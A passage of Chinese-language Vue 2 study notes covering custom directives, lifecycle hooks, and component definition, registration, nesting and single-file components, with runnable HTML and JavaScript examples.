    // 配置对象形式
    Vue.directive('fbind', {
      bind(element, binding) {
        element.value = binding.value
      },
      inserted(element, binding) {
        element.focus()
      },
      update(element, binding) {
        element.value = binding.value
      },
    })

    const vm = new Vue({
      el: '#root',
      data: {
        n: 0,
      },
    })

    new Vue({
      el: '#root2',
      data: {
        n: 0,
      },
    })
  </script>
</html>
```

> 

## 6. 自定义指令 总结

- 一、定义语法：

  - (1).局部指令：

    ```js
    new Vue({															
    	directives:{指令名:配置对象}     		
    }) 		
    ```

    ```js
    new Vue({
    	directives{指令名:回调函数}
    })
    ```

  - (2).全局指令：

    ```js
    Vue.directive(指令名,配置对象) 
    ```

    ```js
    Vue.directive(指令名,回调函数)
    ```

- 二、配置对象中常用的3个回调：

  - (1).bind：指令与元素成功绑定时调用。
  - (2).inserted：指令所在元素被插入页面时调用。
  - (3).update：指令所在模板结构被重新解析时调用。

- 三、备注：

  - 1.指令定义时不加v-，但使用时要加v-；
  - 2.指令名如果是多个单词，要使用kebab-case命名方式，不要用camelCase命名。

# 20.生命周期

## 1. 生命周期

生命周期，又名：生命周期回调函数、生命周期函数、生命周期钩子。生命周期是Vue在关键时刻帮我们调用的一些特殊名称的函数。生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。生命周期函数中的this指向是vm 或 组件实例对象。

> 生命周期函数的书写位置与data、methods同级

## 2. 生命周期流程


### 2.1 初始化


> 初始化阶段模板未解析，页面显示的内容为代码中的样式，代码写什么样就显示什么样。

#### 2.1.1 beforeCreate()

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h2>n的值：{{n}}</h2>
    <button @click="add">点击n++</button>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      n: 0
    },
    methods: {
      add() {
        this.n++
      }
    },
    beforeCreate() {
      console.log('---- beforeCreate ----')
      // 访问vue实例中的data和methods
      console.log(this._data)
      console.log(this.n)
      console.log(this.add)
      debugger
    },
  })
</script>
</html>
```

> 

#### 2.1.2 created()

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h2>n的值：{{n}}</h2>
    <button @click="add">点击n++</button>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      n: 0
    },
    methods: {
      add() {
        this.n++
      }
    },
    beforeCreate() {
      console.log('---- beforeCreate ----')
      // 访问vue实例中的data和methods
      // console.log(this._data)
      // console.log(this.n)
      // console.log(this.add)
      // debugger
    },
    created() {
      console.log('---- created ----')
      // 访问vue实例中的data和methods
      console.log(this._data)
      console.log(this.n)
      console.log(this.add)
      debugger
    },
  })
</script>
</html>
```

> 

### 2.2 模板的编译


#### 2.2.1 outerHTML & innerHTML


#### 2.2.2 beforeMount()

```js
    beforeMount() {
      console.log('---- beforeMount ----')
      debugger
    },
```

> 

> 
> 

#### 2.2.3 mounted()

```js
    mounted() {
      console.log('---- mounted ----')
      debugger
    },
```

> 

> 此时对DOM元素操作有效
> 
> 

#### 2.2.4 template配置项提供模板

使用template配置项提供模板，提供的目标只能有一个根节点，使用template配置项提供模板，vue不会编译解析提前提供的容器，即只解析提供的innerHTML。

> 不能使用`template`标签作为根节点

> 不使用template配置项提供模板，vue编译解析的为outerHTML。
> 
> 

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root" :x="n">
    
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    // 字符串换行书写，使用es6的模板字符串
    template: `
    <div>
      <h2>n的值：{{n}}</h2>
      <button @click="add">点击n++</button>
    </div>
    `,
    data: {
      n: 0
    },
    methods: {
      add() {
        this.n++
      }
    },
    beforeCreate() {
      console.log('---- beforeCreate ----')
    },
    created() {
      console.log('---- created ----')
    },
    beforeMount() {
      console.log('---- beforeMount ----')
    },
    mounted() {
      console.log('---- mounted ----')
    },
  })
</script>
</html>
```

> 

#### 2.2.5 $el

```js
    mounted() {
      console.log('---- mounted ----')
      console.log(this.$el)
      console.log(this.$el instanceof HTMLElement)
      // debugger
    },
```

> 

### 2.3 数据更新


#### 2.3.1 beforeUpdate()

```js
    beforeUpdate() {
      console.log('---- beforeUpdate ----')
      // 打印更新后的数据
      console.log(this.n)
      debugger
    },
```

> 

#### 2.3.2 update()

```js
    updated() {
      console.log('---- updated ----')
      // 打印更新后的数据
      console.log(this.n)
      debugger
    },
```

> 

### 2.4 销毁


> 销毁vue实例对象，调用`vm.$destroy()`方法，在开发中一般不使用该方法。

#### 2.4.1 beforeDestroy()

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root" :x="n">
      <h2>n的值：{{n}}</h2>
      <button @click="add">点击n++</button>
      <button @click="destroy">点击销毁</button>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        n: 0,
      },
      methods: {
        add() {
          this.n++
        },
        // 销毁vue实例对象
        destroy() {
          this.$destroy()
        },
      },
      beforeCreate() {
        console.log('---- beforeCreate ----')
        // 访问vue实例中的data和methods
        // console.log(this._data)
        // console.log(this.n)
        // console.log(this.add)
        // debugger
      },
      created() {
        console.log('---- created ----')
        // 访问vue实例中的data和methods
        // console.log(this._data)
        // console.log(this.n)
        // console.log(this.add)
        // debugger
      },
      beforeMount() {
        console.log('---- beforeMount ----')
        // debugger
      },
      mounted() {
        console.log('---- mounted ----')
        // console.log(this.$el)
        // console.log(this.$el instanceof HTMLElement)
        // debugger
      },
      beforeUpdate() {
        console.log('---- beforeUpdate ----')
        // 打印更新后的数据
        // console.log(this.n)
        // debugger
      },
      updated() {
        console.log('---- updated ----')
        // 打印更新后的数据
        // console.log(this.n)
        // debugger
      },
      beforeDestroy() {
        console.log('---- beforeDestroy ----')
        // 此时data中的数据和methods中的方法还可以使用
        this.add()
        console.log(this.n)
        debugger
      },
    })
  </script>
</html>
```

> 

#### 2.4.2 destroy()

## 3. 生命周期 总结

> vue不同函数间使用同一个变量，可以将变量挂在vue实例上(this->vue实例vm)。

- 常用的生命周期钩子：
  - 1.mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
  - 2.beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。
- 关于销毁Vue实例
  - 1.销毁后借助Vue开发者工具看不到任何信息。
  - 2.销毁后自定义事件会失效，但原生DOM事件依然有效。
  - 3.一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。

# 21.组件

## 1. 对组件的理解

### 1.1 传统方式编写网页


> 对于传统方式编写网页：
>
> 1. 实现了代码复用，页面的顶部和底部的css样式以及页面顶部和底部的js实现了代码的复用，但是页面的代码复用率不高，页面的结构代码html没有得到复用。
> 2. 页面的依赖关系混乱，一个页面引入多个css和js，一个css代码和js代码又被多个页面引用，如果此时css代码和js代码之间又存在相互引用，则此时代码间的关系更加混乱，这个情况下代码不利于维护，可能牵一发而动全身。
> 3. 上述图片中js代码实现了模块化。

> 模块化：当应用中的 js 都以模块来编写的，那这个应用就是一个模块化的应用。即将一个庞大的js代码文件，根据需求和功能进行模块的拆分，将一个庞大的js代码文件拆分成多个js代码文件。
> 模块：向外提供特定功能的 js 程序，一般就是一个 js 文件。
> 模块的作用：复用 js，简化 js 的编写，提高 js 运行效率。

### 1.2 组件方式编写页面


> 对于组件方式编写页面：
>
> 1. 整个组件，包含html、css、js，都能实现复用，需要某个组件时，只要将对应的组件整个引入即可，提高了代码的复用性。
> 2. 在组件化编程中，各个组件都有属于自己的html、css、js，每个组件之间不会相互影响，不会出现页面的依赖关系混乱，不利于维护的情况。
> 3. 在组件化编程中也可以实现模块化，在一个组件中，也可以将该组件的js代码进行拆分，根据功能和需求拆分多个js代码。
>    

> 组件化：当应用中的功能都是多组件的方式来编写的，那这个应用就是一个组件化的应用。即将一个页面拆分成多个部分(组件)，每个组件都有属于自己的代码和资源，单独编写自己的html、css、js。不同组件间可以进行引用。
> 组件：用来实现局部功能的代码和资源的集合（html/css/js/image…）
> 组件的作用：复用编码，简化项目编码，提高运行效率
> 

## 2. 定义/创建组件

在vue中，组件有两种形式，非单文件组件和单文件组件。

### 2.1 非单文件组件（几乎不用）

非单文件组件：一个文件中包含n个组件。

#### 2.1.1 创建组件

创建组件语法：

```javascript
const 组件名 = Vue.extend({
	// el: '' 在组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
	// 组件控制的模板 html
    template: '',
	data() {
		return {
			k: v,
			k: v,
			...
		}
	}
})
```

- 在组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。

- 在组件定义时，data配置项一定要写成函数形式。

  - 如果写成对象形式，则多个组件都引用了该新组件，则多个组件的页面中的data都是对该新组件中data的引用，一个组件修改了值，另一个组件也会受到影响。

  - 如果写成函数形式，则每次都会返回一个新的data对象，不同组件之间不会互相影响。

    ```javascript
      function data() {
        return {
          a: 1,
          b: 99
        }
      }
    
      a = data()
      b = data()
    ```

    > 

```js
    // 创建学校组件
    const school = Vue.extend({
      // 组件控制的模板 html
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2>  
        </div>
      `,
      // 组件控制模板的数据
      data() {
        return {
          name: 'SGG',
          address: 'Beijing'
        }
      }
    })

    // 创建学生组件
    const student = Vue.extend({
      // 组件控制的模板 html
      template: `
        <div>
          <h2>姓名: {{name}}</h2>
          <h2>年龄：{{age}}</h2>
          <button @click="age++">点击年龄++</button>
        </div>
      `,
      // 组件控制模板的数据
      data() {
        return {
          name: 'ZS',
          age: 18
        }
      }
    })
```

#### 2.1.2 注册组件(局部注册)

在vue实例vm中注册组件，使用`components`配置项。

语法：

```javascript
new Vue({
	el: '#root',
	components: {
		组件使用时的名字: 创建时的组件名,
		组件使用时的名字: 创建时的组件名,
		...
	}
})
new Vue({
	el: '#root',
	components: {
		// 组件使用时候的名字和创建时的组件名一致可以简写
		创建时的组件名,
		创建时的组件名,
		...
	}
})
    const vm = new Vue({
      el: '#root',
      // 由于只有一个vm，不会出现冲突
      // vm的data可以使用对象形式
      data: {
        msg: 'hello world!'
      },
      // 注册组件
      // 组件使用时候的名字和组件创建时候的名字一样
      components: {
        school,  //等价于：school:school
        student  //等价于：student:student
      } 
    })
```

#### 2.1.3 使用组件

使用组件，只需要在页面中需要使用组件的位置编写对应组件的组件标签即可。

```html
<组件使用时的名字></组件使用时的名字>
  <body>
    <div id="root">
      <h1>{{msg}}</h1>
      <hr />
      <school></school>
      <hr />
      <student></student>
      <!-- 组件的复用 -->
      <student></student>
    </div>
  </body>
```

> 

#### 2.1.4 页面完整代码

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h1>{{msg}}</h1>
      <hr />
      <school></school>
      <hr />
      <student></student>
      <student></student>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    // 创建学校组件
    const school = Vue.extend({
      // 组件控制的模板 html
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2>  
        </div>
      `,
      // 组件控制模板的数据
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      },
    })

    // 创建学生组件
    const student = Vue.extend({
      // 组件控制的模板 html
      template: `
        <div>
          <h2>姓名: {{name}}</h2>
          <h2>年龄：{{age}}</h2>
          <button @click="age++">点击年龄++</button>
        </div>
      `,
      // 组件控制模板的数据
      data() {
        return {
          name: 'ZS',
          age: 18,
        }
      },
    })

    const vm = new Vue({
      el: '#root',
      // 由于只有一个vm，不会出现冲突
      // vm的data可以使用对象形式
      data: {
        msg: 'hello world!',
      },
      // 注册组件
      // 组件使用时候的名字和组件创建时候的名字一样
      components: {
        school,
        student,
      },
    })
  </script>
</html>
```

#### 2.1.5 注册组件(全局注册)

语法：

```js
// 全局注册school组件
Vue.component('school', school)
```

示例

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h1>{{msg}}</h1>
      <hr />
      <school></school>
      <hr />
      <student></student>
      <student></student>
    </div>
    <hr><hr>
    <div id="root2">
        <!-- root2也可以使用全局组件school -->
      <school></school>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    // 创建学校组件
    const school = Vue.extend({
      // 组件控制的模板 html
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2>  
        </div>
      `,
      // 组件控制模板的数据
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      },
    })

    // 创建学生组件
    const student = Vue.extend({
      // 组件控制的模板 html
      template: `
        <div>
          <h2>姓名: {{name}}</h2>
          <h2>年龄：{{age}}</h2>
          <button @click="age++">点击年龄++</button>
        </div>
      `,
      // 组件控制模板的数据
      data() {
        return {
          name: 'ZS',
          age: 18,
        }
      },
    })

    Vue.component('school', school)

    const vm = new Vue({
      el: '#root',
      // 由于只有一个vm，不会出现冲突
      // vm的data可以使用对象形式
      data: {
        msg: 'hello world!',
      },
      // 注册组件
      // 组件使用时候的名字和组件创建时候的名字一样
      components: {
        student
      },
    })

    new Vue({
      el: '#root2'
    })
  </script>
</html>
```

> 

#### 2.1.6 非单文件组件 总结

- Vue中使用组件的三大步骤：
  - 一、定义组件(创建组件)
  - 二、注册组件
  - 三、使用组件(写组件标签)
- 一、如何定义一个组件？
  - 使用`Vue.extend(options)`创建，其中`options`和`new Vue(options)`时传入的那个`options`几乎一样，但也有点区别；
  - 区别如下：
    - 1.el不要写，为什么？ ——— 最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。
    - 2.data必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系。
  - 备注：使用`template`可以配置组件结构。
- 二、如何注册组件？
  - 1.局部注册：靠`new Vue`的时候传入`components`选项
  - 2.全局注册：靠`Vue.component('组件名',组件)`
- 三、编写组件标签：
  - `<school></school>`

### 2.2 组件的注意点

#### 2.2.1 组件的名称由一个单词组成

组件的名称由一个单词组成时，可以使用首字母大写的写法，这种写法可以与vue的开发者工具相呼应。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <School></School>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    // 创建学校组件
    const school = Vue.extend({
      // 组件控制的模板 html
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2>  
        </div>
      `,
      // 组件控制模板的数据
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      },
    })

    const vm = new Vue({
      el: '#root',
      data: {
        msg: 'hello world!',
      },
      components: {
        School: school
      },
    })
  </script>
</html>
```

> 

#### 2.2.2 组件的名称由多个单词组成

##### 2.2.2.1 写法一(kebab-case命名)

组件的名称由多个单词组成时，使用短线连接不同单词的写法。此时，组件名要使用引号进行包裹。这种写法vue开发者工具会将不同单词取出每个单词首字母大写进行显示。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <my-school></my-school>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    // 创建学校组件
    const school = Vue.extend({
      // 组件控制的模板 html
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2>  
        </div>
      `,
      // 组件控制模板的数据
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      },
    })

    const vm = new Vue({
      el: '#root',
      data: {
        msg: 'hello world!',
      },
      components: {
        'my-school': school
      },
    })
  </script>
</html>
```

> 

##### 2.2.2.2 写法二(CamelCase命名)

组件的名称由多个单词组成时，使用每个单词首字母大写的写法，**此种写法需要脚手架的环境下使用。**

```html
components: {
  MySchool: school
},
<MySchool></MySchool>
```

> 组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。

#### 2.2.3 组件的name配置项

可以使用name配置项指定组件在开发者工具中呈现的名字。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <my-school></my-school>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    // 创建学校组件
    const school = Vue.extend({
      name: 'hhhhhhhhhhh',
      // 组件控制的模板 html
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2>  
        </div>
      `,
      // 组件控制模板的数据
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      },
    })

    const vm = new Vue({
      el: '#root',
      data: {
        msg: 'hello world!',
      },
      components: {
        'my-school': school
      },
    })
  </script>
</html>
```

> 

#### 2.2.4 创建组件的简写形式

```js
const school = Vue.extend(options) 

可简写为：

const school = options
```

> ```
> const school = options`此种写法，在vue的底层会自动调用`Vue.extend()
> ```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <my-school></my-school>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    // 创建学校组件
    const school = {
      name: 'MySchool',
      // 组件控制的模板 html
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2>  
        </div>
      `,
      // 组件控制模板的数据
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      },
    }

    const vm = new Vue({
      el: '#root',
      data: {
        msg: 'hello world!',
      },
      components: {
        'my-school': school
      },
    })
  </script>
</html>
```

> 

### 2.3 组件的嵌套

> 注意：被使用的组件需要先定义，组件定义完成后才能进行注册使用。
> 组件在哪个组件管理的模块使用，就在哪个模块进行注册使用

> 在开发中，通常会定义一个名为App的组件，用于管理其他全部的组件，而App组件收到vm的管理。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    // 定义student组件 在school中注册使用
    const student = Vue.extend({
      name: 'Student',
      template: `
        <div>
          <h2>姓名: {{name}}</h2>
          <h2>年龄：{{age}}</h2>  
        </div>
      `,
      data() {
        return {
          name: 'ZS',
          age: 18,
        }
      },
    })

    // 定义school组件
    const school = Vue.extend({
      name: 'School',
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2>
          <hr>
          <!-- 使用student组件 -->
          <student></student>  
        </div>
      `,
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      },
      components: {
        // 注册student组件
        student,
      },
    })

    // 定义hello组件 与school组件平级
    const hello = Vue.extend({
      name: 'Hello',
      template: `
        <div>
          <h1>Hello World!</h1>  
        </div>
      `,
    })

    // 定义app组件用于管理所有的组件
    const app = Vue.extend({
      name: 'App',
      template:`
        <div>
          <!-- 使用hello与student组件 -->
          <hello></hello>
          <school></school>  
        </div>
      `,
      components: {
        // 注册hello与school组件
        hello,
        school,
      }
    })

    const vm = new Vue({
      el: '#root',
      // 使用app组件
      template: `<app></app>`,
      components: {
        // 注册App组件
        app
      },
    })
  </script>
</html>
```

> 

### 2.4 VueComponent

#### 2.4.1 组件为VueComponent的构造函数

组件本质是一个名为VueComponent构造函数，且不是程序员定义的，是Vue.extend生成的。

> 在页面中使用了组件，才会进行vue组件实例对象的创建。

```js
// 定义school组件
const school = Vue.extend({
  name: 'School',
  template: `
    <div>
      <h2>学校名: {{name}}</h2>
      <h2>学校地址：{{address}}</h2> 
    </div>
  `,
  data() {
    return {
      name: 'SGG',
      address: 'Beijing',
    }
  }
})

console.log(school)
```

> 

```js
//Vue.js源码
Vue.extend = function (extendOptions) {
  /* ...... */ 

  var Sub = function VueComponent (options) {
    this._init(options);
  };
  
  /* ...... */

  return Sub
};
```

由Vue.extend()的源代码可知，在Vue.extend()内创建了一个VueComponent函数，并将该函数进行了返回。所以组件是一个名为VueComponent构造函数，且是由Vue.extend生成的。

#### 2.4.2 使用组件自动调用new VueComponent()

以school组件为例，我们只需要写`<school/>`或`<school></school>`，Vue解析时会帮我们创建 school 组件的实例对象 ，即Vue帮我们执行的：`new VueComponent(options)`。

修改vue.js中`Vue.extend()`源代码：

```js
var Sub = function VueComponent(options) {
    console.log('VueComponent被调用...')
    this._init(options);
};
```

使用两次school组件：

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <school></school>
      <school></school>
    </div>
  </body>
  <!-- <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script> -->
  <script src="../js/vue.js"></script>
  <script>
    // 定义school组件
    const school = Vue.extend({
      name: 'School',
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2> 
        </div>
      `,
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      }
    })

    console.log(school)

    const vm = new Vue({
      el: '#root',
      components: {
        school
      },
    })
  </script>
</html>
```

> 

#### 2.4.3 每次创建组件返回全新的VueComponent

每次调用Vue.extend，返回的都是一个全新的VueComponent。

```html
  <script>
    // 定义school组件
    const school = Vue.extend({
      name: 'School',
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2> 
        </div>
      `,
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      }
    })

    // 定义hello组件
    const hello = Vue.extend({
      name: 'Hello',
      template: `
        <div>
          <h2>Hello World!</h2> 
        </div>
      `
    })


    console.log(school)
    console.log(hello)
    console.log(hello === school)
  </script>
```

> 

#### 2.4.4 this的指向

- (1).组件配置中：
  - data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【VueComponent实例对象】。
- (2).new Vue(options)配置中：
  - data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <button @click="showThis">点击打印this</button>
      <hr />
      <school></school>
    </div>
  </body>
  <!-- <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script> -->
  <script src="../js/vue.js"></script>
  <script>
    // 定义school组件
    const school = Vue.extend({
      name: 'School',
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2> 
          <button @click="showThis">点击打印this</button>
        </div>
      `,
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      },
      methods: {
        showThis() {
          console.log('VueComponent: ', this)
        },
      },
    })

    const vm = new Vue({
      el: '#root',
      components: {
        school,
      },
      methods: {
        showThis() {
          console.log('Vue: ', this)
        },
      },
    })
  </script>
</html>
```

> 

### 2.5 一个重要的内置关系

> [JavaScript高级 – 原型与原型链](D:\学习文件\自学\前端\03-04-JavaScript高级-尚硅谷.md)


在Vue中，VueComponent()的原型对象的原型对象为Vue()的原型对象。即组件的原型对象的原型对象为Vue()的原型对象。

```properties
VueComponent.prototype.__proto__ === Vue.prototype
```

> Vue()为vue实例的构造函数，VueComponent()为组件实例的构造函数。

这个重要的内置关系的作用：让组件实例对象（vc）可以访问到 Vue原型上的属性、方法。这样子就不用再VueComponent的原型对象上再添加一份与Vue原型对象上相同的属性和方法。


```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <school></school>
    </div>
  </body>
  <!-- <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script> -->
  <script src="../js/vue.js"></script>
  <script>
    // 向Vue的原型对象上添加属性x
    Vue.prototype.x = 999

    // 定义school组件
    const school = Vue.extend({
      name: 'School',
      template: `
        <div>
          <h2>学校名: {{name}}</h2>
          <h2>学校地址：{{address}}</h2> 
          <button @click="showX">点击打印X</button>
        </div>
      `,
      data() {
        return {
          name: 'SGG',
          address: 'Beijing',
        }
      },
      methods: {
        showX() {
          // 在组件实例对象中无x，会向VueComponent的原型对象查找
          // VueComponent的原型对象也无x，会向Vue的原型对象查找
          // 最终在Vue的原型对象中查找到x
          console.log('School  x: ', this.x)
        },
      },
    })

    const vm = new Vue({
      el: '#root',
      components: {
        school,
      }
    })
  </script>
</html>
```

> 

### 2.6 单文件组件

单文件组件：一个文件中只包含一个组件。

在单文件组件中，一个组件就是一个`.vue`文件。

> vue组件文件的命名
> 使用小写单词：
>
> 1. 单个单词：school.vue
> 2. 多个单词：my-school.vue
>
> 使用首字母大写单词：(推荐)
> 这种写法与vue开发者工具显示的组件名一致。
>
> 1. 单个单词：School.vue
> 2. 多个单词：MySchool.vue

#### 2.6.1 单文件组件代码的书写位置

```html
<template>
  <!-- vue2中组件结构中只能有一个根节点 -->
  <div>
    <!-- 组件的结构 -->
  </div>
</template>

<script>
  // 组件交互相关的代码
</script>

<style>
  /* 组件的样式 */
</style>
```

> .vue文件中，代码高亮显示插件
> 
> 安装该插件后，骨架代码快速生成：`<v + 回车`

#### 2.6.2 组件js代码的暴露

1.分别暴露

```html
<script>
  export 需要暴露的方法或变量
</script>
```

2.统一暴露

```html
<script>
  export {
	需要暴露的方法或变量,
	...
  }
</script>
```

3.默认暴露

> 当暴露的东西为一个时，一般使用默认暴露，引入时直接`import xxx from xxx`

```html
<script>
  export default 需要暴露的方法或变量
</script>
```

#### 2.6.3 组件的创建与使用

School组件：

```html
<template>
  <div class="demo">
    <h2>学校名: {{name}}</h2>
    <h2>学校地址：{{address}}</h2>
    <button @click="showX">点击打印X</button>
  </div>
</template>

<script>
// 由于只需要向外暴露一个VueComponent
// 所以使用默认暴露
// 由于vue.extend()可以省略
// 可以直接写组件的配置对象
// 注册组件使用组件时，vue.extend()会自动调用
export default {
  name: 'School',
  data() {
    return {
      name: 'SGG',
      address: 'Beijing'
    }
  },
  methods: {
    showX() {
      console.log('School  x: ', this.x)
    }
  }
}
</script>

<style>
.demo {
  background-color: orange;
}
</style>
```

Student组件：

```html
<template>
  <div>
    <h2>学生姓名：{{name}}</h2>
    <h2>学生年龄：{{age}}</h2>
  </div>
</template>

<script>
export default {
  name: 'Student',
  data() {
    return {
      name: '张三',
      age: 18
    }
  }
}
</script>

<style>
</style>
```

App组件：

```html
<template>
	<div>
		<School></School>
		<Student></Student>
	</div>
</template>

<script>
	//引入组件
	import School from './School.vue'
	import Student from './Student.vue'

	export default {
		name:'App',
		components:{
			School,
			Student
		}
	}
</script>
```

编写入口文件main.js，创建vue实例，注册App组件：

```js
// 导入App组件
import App from './App.vue'

new Vue({
	el:'#root',
	template:`<App></App>`,
